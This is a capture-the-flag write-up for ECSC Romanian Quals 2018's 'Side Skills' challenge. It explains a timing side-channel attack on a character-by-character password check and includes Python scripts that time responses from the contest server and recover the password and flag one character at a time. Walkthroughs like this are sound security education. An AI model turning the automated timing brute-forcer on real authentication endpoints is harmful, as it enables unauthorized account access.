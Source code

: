```yaml
---
title: Side Skills
contest: ECSC Romanian Quals 2018
authors: trupples
layout: writeup
---
```


This has to be one of my favourite challenge types. The name suggests that it's
a side channel attack so I looked at perhaps the only measurable side effect
of a web challenge - the server response time. The idea is that if the server
checks the password (the p parameter) character by character and immediately
stops when it finds a mismatch we can detect how many correct characters are
at the beginning of the provided password.

For example, if the correct password is `MyPassword` and we send it `Montenegro`
it will first check if the first character is good, and it is, then it will
check the second and stop as there's a mismatch. On the other hand, if we sent
`MyPaddle` it will have to do 5 checks before finding out that the password
is incorrect. If the checks are slow enough (and they artificially are in this
challenge) this matching prefix length is measurable.

To begin we can try each possible length-1 password and time the server's
response:

```py
import requests
import string
import time

possible_chars = string.ascii_lowercase + string.digits + string.ascii_uppercase

for c in possible_chars:
	time_before = time.clock()
	requests.get("https://side-skills.ctf.cybersecuritychallenge.ro/?p="+c)
	time_after = time.clock()
	response_time = time_after - time_before
	print c, response_time
```

I think the results also depend on your ping to the server but I got around
0.13-0.15 for all characters EXCEPT for lowercase `p` which had a considerably
different response time of 0.25. This is a good enough indication that the
first character of the password is `p`.

Now we can do the same thing but instead of trying length-1 passwords we'll try
length-2 passwords that start with `p`:

```py
import requests
import string
import time

possible_chars = string.ascii_lowercase + string.digits + string.ascii_uppercase

for c in possible_chars:
	time_before = time.clock()
	requests.get("https://side-skills.ctf.cybersecuritychallenge.ro/?p=p"+c)
	time_after = time.clock()
	response_time = time_after - time_before
	print "p"+c, response_time
```

This time all server response times hovered around 0.22-0.25 except for the one
for `a` which was 0.30. This means that the password starts with `pa`. 

We now have to go on and on with algorithm of finding out each of the
password's characters one by one. The following script automates this process:

```py
import requests
import time
import string
import sys

known_prefix = ""

def response_time(c):
	time_before = time.clock()
	requests.get("https://side-skills.ctf.cybersecuritychallenge.ro/?p="+known_prefix+c)
	time_after = time.clock()
	print known_prefix+c, time_after-time_before
	sys.stdout.flush()	# Mingw doesn't flush on print
	return time_after-time_before

def next_char():
	# Go through each character and record its response time
	times = [(c, response_time(c)) for c in string.ascii_lowercase + string.digits + string.ascii_uppercase]

	# Sort by response time
	times.sort(key=lambda pair: pair[1])

	# Log sorted response times
	print times

	# Return slowest response time's character
	return times[-1][0]

# Warm it up - without this the first request for '0' (or 'a') has a falsely greater time
response_time("WarmupWarmup")

while True:
	print "->", known_prefix
	known_prefix += next_char()

	# Test to see if we also have the flag in the response
	res = requests.get("https://side-skills.ctf.cybersecuritychallenge.ro/?p="+known_prefix).text
	if "ECSC" in res:
		print res
		sys.exit(0)

```

After a while we get to the final password: `passIsS0str0ng4` and sending it to
the server gets us back a congratulatory message and the flag:

> Congratulations! You are a really good brute forcer. Here is the flag:ECSC{8D6794917D9306ED63269DBF4E636C7366B1F25FFC6782F93553D763295BF773}
